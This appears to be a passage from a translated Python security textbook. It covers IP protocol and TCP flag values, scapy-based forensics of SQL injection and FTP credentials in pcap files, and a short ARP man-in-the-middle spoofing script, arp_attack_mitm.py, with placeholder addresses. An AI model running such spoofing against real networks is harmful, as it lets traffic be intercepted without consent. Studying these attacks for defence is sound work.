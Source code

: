 ![](img/a04b900f-9919-4596-a73b-d048281311c5.png)

协议输出现在不是 TCP、UDP 等。其十六进制值：

**006 为 IP 协议字段**；它是指数据部分中使用的下一级协议。长度为 8 位。在这种情况下，十六进制（06）（00000110）=十进制中的 TCP 将是 6。

2, 16, 18, 24, ... 是 TCP 标头的标志，在本例中以十六进制格式表示。例如，18 将是二进制 11000，正如我们已经知道的，这将是激活的 ACK+PSH。

# 基于 scapy 的网络取证

Scapy 还可用于执行 SQL 注入攻击的网络取证或从服务器提取 ftp 凭据。通过使用 Python scapy 库，我们可以识别攻击者何时/何地/如何执行 SQL 注入。借助 Python scapy 库，我们可以分析网络数据包的 pcap 文件。

With scapy, we can analyze networks packets and detect whether an attacker is performing a SQL injection.

我们将能够分析、截获和剖析网络数据包，并重用其内容。我们有能力利用我们捕获或生成的信息处理 PCAP 文件。

例如，我们可以为 ARP MITM 攻击开发一个简单的脚本。

您可以在**`arp_attack_mitm.py`**文件中找到以下代码：

```py
from scapy.all import *
import time

op=1 # Op code 1 for query arp
victim="<victim_ip>" # replace with the victim's IP
spoof="<ip_gateway>" # replace with the IP of the gateway
mac="<attack_mac_address>" # replace with the attacker's MAC address

arp=ARP(op=op,psrc=spoof,pdst=victim,hwdst=mac)

while True:
 send(arp)
 time.sleep(2)
```
